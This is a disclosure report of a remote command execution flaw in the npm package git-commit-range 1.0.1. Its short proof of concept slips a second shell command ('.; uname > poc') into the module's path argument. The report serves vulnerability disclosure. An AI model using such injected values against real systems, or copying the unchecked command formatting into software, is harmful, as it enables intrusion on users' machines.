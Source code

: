 ## Details
I would like to report a `RCE` issue in the `git-commit-range` module.
It allows to execute `arbitrary commands remotely inside the victim's PC`

## Module
* **module name:** `git-commit-range`
* **version:** `1.0.1`
* **npm page:** `https://www.npmjs.com/package/git-commit-range`

## Module Description
> Get the git commithash within a Range from-to

## Vulnerability Description
The issue occurs because a `user input` is formatted inside a `command` that will be executed without any check. The issue arises here: https://github.com/aichbauer/node-git-commit-range/blob/master/index.js#L32

## POC

```js
// poc.js
const gitCommitRange = require('git-commit-range');

gitCommitRange(); 

gitCommitRange({
  path: '.; uname > poc',
  from: '15be93c31ad87c9ced03ba0b60fc2fb55c977c5c',
  to: '32b940b014322834966d79b109d2d7adec8e3ea3',
  include: false,
});
```

## Impact
`RCE` on `git-commit-range` via `insecure command formatting`
